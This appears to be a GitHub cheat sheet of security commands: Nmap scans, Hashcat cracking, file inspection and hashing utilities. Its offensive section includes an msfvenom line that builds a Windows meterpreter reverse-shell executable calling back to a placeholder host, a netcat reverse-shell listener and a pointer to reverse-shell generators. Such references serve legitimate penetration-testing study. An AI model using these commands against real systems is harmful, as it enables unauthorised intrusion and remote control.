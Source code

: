 # 🔫Quick Reference Commands

## 🛡️ Offensive Security Commands
### Nmap default port scan
```bash
nmap -p- -O -v -sV <IP ADDRESS>
```
-- Default mass port scan with OS and Service identification 

### Nmap Aggressive port scan
```bash
nmap -A -v <IP ADDRESS>
```
-- Aggressive Port Scan

### Retrieve a file from an FTP server
```bash
mget *
```
-- Full all files from a directory from an FTP server

### Crack a Password with Hashcat 
```bash
hashcat -O -a 0 -m <HASH Type> <FILE HASH>:<SALT>
```
-- This command runs Hashcat in optimized mode (`-O`) to crack a hash (`<FILE HASH>`) that uses a salt (`<SALT>`), using a dictionary attack (`-a 0`) against a specific hash type 

### Create Reverse Shell Malware
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL HOST> LPORT=4444 -f exe > shell.exe
```
-- This command will utilise the MSF venom package of the Metasploit framework and generate a revers shell listening on port 4444

### Host a Python Webserver
```bash
python3 -m http.server 8000
``` 
-- This command will host a minimised webserver on port 8000 locatable at the local IP of the endpoint 

### Create a Network Share
```bash
net share <NAME OF SHARE>=<PATH TO DIRECTORY OF SHARE>
```
-- This command will create a sharable drive on the system that allows other endpoints on the network to access

### Create a Quick Reverse Shell Listener
```bash
nc -nvlp 3333
```
-- This command will issue a net cat listener on port `3333`  without resolving DNS and providing a verbose output

### Create a Quick Reverse Shell 
- Utilising the resource available at [revshells.com](https://revshells.com) can provide multiple ways to generate a reverse shell.

## 📝File Information

### Retrieve basic file information
```bash
file <FILE NAME>
```
-- This will provide a high level overview of a given file specifying file type and offset

### Provide a hexdump of a file
```bash
xxd <FILE NAME>
```
-- This will provide a hexdump of a given file

## \# File Hashing
### Retrieve a file hash (linux)
```bash
<FILE HASH TYPE>sum <FILE NAME>
```

### Retrieve a file hash (Powershell)
> Default is SHA256 e.g. no provided `-alg` statement
```bash
get-filehash <FILE NAME> -alg <FILE HASH TYPE>
```

### Retrieve a file hash (Win)
```bash
certutil -hashfile <FILE NAME> <FILEHASHTYPE>
```

## Other

### Get Architecture Information
```bash
wmic os get osarchitecture
```
-- This command will identify what architecture the system is running (e.g. 32-bit/64-bit)

### Command Line Base64 Decode
```bash
echo "<BASE64 STRING>" | base64 -d
```
-- This command will decode any provided base 64 